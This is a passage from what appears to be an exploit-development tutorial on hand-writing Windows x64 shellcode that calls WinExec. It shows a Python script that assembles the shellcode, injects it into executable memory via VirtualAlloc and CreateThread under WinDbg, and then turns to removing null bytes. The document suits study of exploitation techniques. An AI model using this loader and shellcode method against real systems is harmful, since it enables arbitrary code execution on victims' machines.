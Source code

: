 ```python
        "  sub rsp, 0x20;"                  # Allocate 32 bytes of shadow space on the stack to prevent overwriting during the call
        "  call r14;"                       # Call WinExec using the address stored in R14
    )
 
    # Initialize engine in 64-Bit mode
    ks = Ks(KS_ARCH_X86, KS_MODE_64)
    instructions, count = ks.asm(SHELLCODE)
 
    sh = b""
    output = ""
    for opcode in instructions:
        sh += struct.pack("B", opcode)                          # To encode for execution
        output += "\\x{0:02x}".format(int(opcode)).rstrip("\n") # For printable shellcode
 
 
    shellcode = bytearray(sh)
    print("Shellcode: " + output )
 
    print("Attaching debugger to " + str(os.getpid()));
    subprocess.Popen(["WinDbgX", "/g","/p", str(os.getpid())], shell=True)
    input("Press any key to continue...");
 
    ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_void_p
    ctypes.windll.kernel32.RtlCopyMemory.argtypes = ( ctypes.c_void_p, ctypes.c_void_p, ctypes.c_size_t ) 
    ctypes.windll.kernel32.CreateThread.argtypes = ( ctypes.c_int, ctypes.c_int, ctypes.c_void_p, ctypes.c_int, ctypes.c_int, ctypes.POINTER(ctypes.c_int) ) 
 
    space = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),ctypes.c_int(len(shellcode)),ctypes.c_int(0x3000),ctypes.c_int(0x40))
    buff = ( ctypes.c_char * len(shellcode) ).from_buffer_copy( shellcode )
    ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_void_p(space),buff,ctypes.c_int(len(shellcode)))
    handle = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),ctypes.c_int(0),ctypes.c_void_p(space),ctypes.c_int(0),ctypes.c_int(0),ctypes.pointer(ctypes.c_int(0)))
    ctypes.windll.kernel32.WaitForSingleObject(handle, -1);
 
if __name__ == "__main__":
    main()
```

When executing the script, an access violation is observed due to the presence of null bytes (`0x00`) within our shellcode.

<img src="{{ site.url }}{{ site.baseurl }}/images/2024-05-01_18-20.png" alt="">

### Removing Null Bytes

To solve this problem, alternative instructions that lead to the same result must be used. For example, rather than subtracting, adding a negative number to a register achieves the same effect.
